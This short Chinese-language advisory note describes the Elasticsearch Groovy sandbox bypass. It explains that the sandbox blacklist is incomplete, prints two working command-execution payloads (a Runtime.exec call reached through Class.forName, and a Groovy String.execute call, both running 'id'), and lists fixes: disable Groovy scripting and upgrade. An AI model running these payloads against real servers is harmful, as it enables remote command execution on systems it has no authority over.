 # 一 漏洞描述
ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本,但由于沙盒代码黑名单中的Java危险方法不全,导致可以绕过沙盒来执行命令。

命令执行的方法有两种:

1.java沙盒绕过

java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()

2.Goovy直接执行命令

def command='id';def res=command.execute().text;res

### 二 漏洞利用
![img.png](img.png)

### 三 漏洞修复
1.关闭groovy沙盒以停止动态脚本的使用

2.升级elasticsearch版本
